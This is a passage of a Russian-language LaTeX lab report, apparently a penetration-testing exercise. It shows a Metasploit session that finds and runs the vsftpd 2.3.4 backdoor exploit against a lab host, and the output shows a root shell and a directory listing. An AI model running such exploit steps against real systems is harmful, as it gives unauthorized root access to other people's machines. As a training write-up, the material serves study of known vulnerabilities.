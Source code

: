 \documentclass[10pt,a4paper]{report}
\begin{document}
		Список директорий, доступных по протоколу SMB:tmp и opt.

	\section{Получение консоли используя уязвимость в vsftpd}
	
		Осуществим поиск модулей для использования уязвимостей в vsftpd:
		\begin{lstlisting}
		msf auxiliary(smb_enumshares) > search vsftpd

Matching Modules
================

   Name                                  Disclosure Date  Rank       Description
   ----                                  ---------------  ----       -----------
   exploit/unix/ftp/vsftpd_234_backdoor  2011-07-03       excellent  VSFTPD v2.3.4 Backdoor Command Execution
		
		\end{lstlisting}	
		Используем найденный exploit:		
		\begin{lstlisting}
msf exploit(vsftpd_234_backdoor) > set RHOST 169.254.120.103
RHOST => 169.254.120.103
msf exploit(vsftpd_234_backdoor) > exploit 

[*] Banner: 220 (vsFTPd 2.3.4)
[*] USER: 331 Please specify the password.
[+] Backdoor service has been spawned, handling...
[+] UID: uid=0 gid=0(root)
[*] Found shell.
[*] Command shell session 1 opened (10.0.2.15:33360 -> 169.254.120.103:6200) at 2016-05-14 17:33:31 +0300

ls -l
total 89
drwxr-xr-x   2 0 root  4096 May 13  2012 bin
drwxr-xr-x   4 0 root  1024 May 13  2012 boot
lrwxrwxrwx   1 0 root    11 Apr 28  2010 cdrom -> media/cdrom
drwxr-xr-x  14 0 root 13480 Mar 29 02:06 dev
drwxr-xr-x  95 0 root  4096 Mar 28 05:33 etc
drwxr-xr-x   6 0 root  4096 Apr 16  2010 home
drwxr-xr-x   2 0 root  4096 Mar 16  2010 initrd
lrwxrwxrwx   1 0 root    32 Apr 28  2010 initrd.img -> boot/initrd.img-2.6.24-16-server
drwxr-xr-x  13 0 root  4096 May 13  2012 lib
drwx------   2 0 root 16384 Mar 16  2010 lost+found
drwxr-xr-x   4 0 root  4096 Mar 16  2010 media
drwxr-xr-x   3 0 root  4096 Apr 28  2010 mnt
-rw-------   1 0 root 13752 Mar 28 05:33 nohup.out
drwxr-xr-x   2 0 root  4096 Mar 16  2010 opt
dr-xr-xr-x 111 0 root     0 Mar 28 05:33 proc
drwxr-xr-x  13 0 root  4096 Mar 28 05:33 root
drwxr-xr-x   2 0 root  4096 May 13  2012 sbin
drwxr-xr-x   2 0 root  4096 Mar 16  2010 srv
drwxr-xr-x  12 0 root     0 Mar 28 05:33 sys
drwxrwxrwt   6 0 root  4096 Mar 29 01:54 tmp
drwxr-xr-x  12 0 root  4096 Apr 28  2010 usr
drwxr-xr-x  15 0 root  4096 May 20  2012 var
lrwxrwxrwx   1 0 root    29 Apr 28  2010 vmlinuz -> boot/vmlinuz-2.6.24-16-server

		\end{lstlisting}	
\end{document}
